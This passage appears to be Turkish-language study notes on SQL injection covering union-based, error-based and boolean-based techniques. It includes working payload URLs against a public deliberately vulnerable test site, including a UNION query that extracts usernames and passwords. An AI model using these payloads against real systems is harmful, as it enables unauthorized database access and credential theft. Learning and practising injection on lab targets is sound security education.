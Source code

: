 ```
http://testphp.vulnweb.com/listproducts.php?cat=-1
UNION SELECT 1,2,3,4,5,6,concat(uname,':ilker:',pass),8,9,10,11 FROM users
```

![Untitled](0x01 104201f95d914f67830bee663ffbdc7f/Untitled 38.png)

---

# **2- Error-based SQLi**

Veritabanında bir syntax hatası olduğunda try — exception koymadıysak, database’den dönen hata mesajını karşımızda görebiliyorsak veri çekmenin güzel bir yöntemi daha var.

![Untitled](0x01 104201f95d914f67830bee663ffbdc7f/Untitled 39.png)

SQL injection öğrenirken yanımızda her zaman için bir egzersiz alanı bulunması gerektiğini dile getirmiştik. Biz de bunu mysql ile sağlamaktayız.

Örnek bir mysql yardımcı fonksiyonu — ExtractValue()

[https://dev.mysql.com/doc/refman/8.0/en/xml-functions.html](https://dev.mysql.com/doc/refman/8.0/en/xml-functions.html)

- bu fonksiyonun yaptığı işlem parametre olarak xml alıp bu xml’i parse edip belirtilen filtreye göre değer döndürülmesini sağlamaktadır.

Önümüze çıkan hata mesajı üzerinden de veri çıkartabiliriz:

```
http://testphp.vulnweb.com/listproducts.php?cat=extractvalue(
rand(), concat(1,(SELECT database())));
```

![Untitled](0x01 104201f95d914f67830bee663ffbdc7f/Untitled 40.png)

# **3- Boolean-based SQL Injection**

Peki kod yapısında bir değişiklik yaparsak ne değişir?

```jsx
if result.size() > 0;
    print("haber var")
else:
    print("haber yok")
```

Her şey değişmiş olur. Artık bize geri dönüş yaptığında SELECT sorgusu bir sonuç yazdırmayacaktır.

```jsx
query = SELECT * FROM haberler WHERE
id= 1 and SUBSTRING(
    (SELECT table_name FROM information_schema.tables WHERE
    table_schema=database() LIMIT 1,1) #users
    ,1
    ,1
)='a'

<html>
HABER VAR
</html>
```
